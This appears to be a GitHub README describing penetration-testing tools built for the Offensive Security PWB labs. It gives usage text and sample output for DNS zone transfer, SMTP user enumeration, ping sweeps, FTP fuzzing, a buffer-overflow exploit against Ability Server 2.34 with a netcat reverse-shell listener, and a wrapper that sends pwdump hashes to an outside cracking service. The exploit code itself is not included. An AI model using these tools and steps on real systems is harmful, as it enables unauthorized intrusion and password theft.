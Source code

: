 Tools for Offsec PWB Labs
========

axfr.rb
--------

An example Ruby script that attempts a full DNS zone transfer (AXFR) using dnsruby

```
Usage: axfr.rb [options] zone

Available options:
    -n, --nameserver HOSTNAME        Specify the nameserver to AXFR zone from
    -w, --timeout SECONDS            Wait timeout in seconds
    -v, --verbose                    Be more verbose
    -h, --help                       Show this help
```

smtpvrfy.rb
--------

Multithreaded SMTP user enumartion tool. You can fine tune the number of threads and users checked in one connection. 
Please note that some SMTP servers might not allow you to do more than a few VRFY calls. The default is to 
reconnect after checkign 3 users. Without the dictionary file the tool only checks for a few standard users. 

```
# ./smtpvrfy.rb -h
Usage: smtpvrfy.rb [options] SMTP_SERVER[:PORT]
Where available options:
    -t, --threads N                  Number of threads (connections) to use - Default: 50
    -c, --chunk N                    Recycle the connection (thread) after N number of users checked - Default: 3
    -u, --user FILE                  Read a dict file with users
    -d, --debug                      Enable session debug
    -h, --help                       Show this help

``` 
Example:

```
# ./smtpvrfy.rb -t 10 -c 5 -u userdict.txt 192.168.11.215
Time: 00:00:20 |===================================================>>| 100% VRFY
adm@redhat.acme.com
apache@redhat.acme.com
bin@redhat.acme.com
bob@redhat.acme.com
```
mping.sh
---------

Just a simple Bash script that indentifies all live hosts (responding to ping) on a given network(s).

```
Usage: ./mping.sh [-t] <IP Range>[,<IP Range>]
  Options:
  -t <n>: Number of ping threads to use (Default: 50)
  -v    : Verbose mode

  Example:
      ./mping.sh 192.168.11.200-192.168.11.254
      ./mping.sh -t 100 192.168.1.1-192.168.1.100,10.1.0.0-10.2.1.1

```

mping.rb
--------
Just a simple Ruby script that indentifies all live hosts (responding to ping) on a given network(s).

```
# ./mping.rb 
Usage:
    mping.rb [options]
    -t, --thread [N]                 Threads to spawn
    -v, --verbose                    Run verbosely
    -h, --help                       Show help
Example:
    mping.rb 192.168.10.200-192.168.10.254
    mping.rb -t 100 10.1.2.3-10.1.2.254,192.168.1.1-192.168.10.254
```
Example:

```
# ./mping.rb -t100 192.168.11.200-192.168.11.254,192.168.13.200-192.168.13.254,192.168.15.200-192.168.15.254,192.168.17.200-192.168.17.254 
Time: 00:00:10 |===============================================================================================================================================================================>>| 100% Ping
192.168.11.201
192.168.11.202
192.168.11.205
192.168.11.206
192.168.11.208
```

ftpfuzz.rb
---------

A basic ftp fuzzer

```
Usage: ftpfuzz.rb [options] ftp-host[:port]

Where available options:
    -u, --user USER                  FTP Username
    -p, --pass PASS                  FTP Password
    -c, --command COMMAND            FTP command to fuzz
    -P, --payload PAYLOAD            Payload to repeat
    -i, --increment INT              Increment the payload times
    -v, --verbose                    Verbose output
    -h, --help                       Show this help
```

Example:

```
# ./ftpfuzz.rb -v -u ftp -p ftp -P A -i 300 -c APPE 192.168.1.4 
220 Welcome to Code-Crafters - Ability Server 2.34. (Ability Server 2.34 by Code-Crafters).
USER ftp
331 Please send PASS now.
PASS ftp
230- Welcome to Code-Crafters - Ability Server 2.34.
230 User 'ftp' logged in.

[*] Using: APPE A
[*] Sending A of size 1 characters
550 File write/modification access disallowed.
[*] Sending A of size 301 characters
550 File write/modification access disallowed.
[*] Sending A of size 601 characters
550 File write/modification access disallowed.
[*] Sending A of size 901 characters
550 File write/modification access disallowed.
[*] Sending A of size 1201 characters
./ftpfuzz.rb:73:in `gets': Connection reset by peer (Errno::ECONNRESET) 
```
ability_appe_exploit.rb
---------------

Exploit against Ability Server <= 2.34 using buffer - Windows XP SP2 

```
Usage: ability_appe_exploit.rb [options] ftp-host[:port]

Where available options:
    -u, --user USER                  FTP Username
    -p, --pass PASS                  FTP Password
    -s, --shellcode TYPE             Shellcode to inject
      Where TYPE can be:
                          simple
                          pattern
                          revshp
                          revsht
                          bind
    -w, --winver                     Windows version
    -v, --verbose                    Verbose output
    -h, --help                       Show this help
```
Example usage:

```
$ nc -l -n -p 4444

$ ability_appe_exploit.rb -u ftp -p ftp -v -s revsht 192.168.11.97
220 Welcome to Code-Crafters - Ability Server 2.34. (Ability Server 2.34 by Code-Crafters).
USER ftp
331 Please send PASS now.
PASS ftp
230- Welcome to Code-Crafters - Ability Server 2.34.
230 User 'ftp' logged in.
[*] Deliverying the payload...
APPE ��������������������������....
```

offcrack.rb
------------

It is a trivial wrapper that reads pwdump file and uses http://cracker.offensive-security.com 
to crack the hashes. Please note that Offsec has blocked access to people without a valid
priority code.

Example usage:

```
# ./offcrack.rb -c 12345678 /tmp/pwdump
admin:password123
Administrator:Y1M125H9fop
alice:!Q2w#E4r
backup:backup
bikingviking:bikingviking
```
